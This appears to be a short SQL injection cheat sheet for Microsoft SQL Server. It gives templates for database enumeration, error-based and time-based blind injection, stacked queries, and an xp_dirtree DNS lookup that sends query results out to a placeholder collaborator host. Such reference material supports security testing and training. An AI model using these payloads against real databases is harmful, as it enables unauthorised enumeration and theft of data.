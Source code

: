 ## summary

Useful SQL commands for mssql dbms

## string concatenation
`'foo'+'bar'`

## substring
`SUBSTRING('foobar', 4, 2)`

## comments
`--comments`

## database version
`select @@version`

## database contents
`select * from information_schema.tables`

`select * from information_schema.columns where table_name = 'TABLE-NAME-HERE'`

## conditional errors
`select case when (YOUR-CONDITION-HERE) then 1/0 else null end`

## batched (or stacked) queries
`query-1-here; query-2-here`

## time delays
`waitfor delay '0:0:10'`

## conditional time delays
`if (YOUR-CONDITION-HERE) waitfor delay '0:0:10'`

## dns lookup
`exec master..xp_dirtree '//YOUR-COLLABORATOR.burpcollaborator.net/a'`

## dns lookup with data exfiltration
`declare @p varchar(1024);set @p=(select YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.YOUR-COLLABORATOR.burpcollaborator.net/a"')`



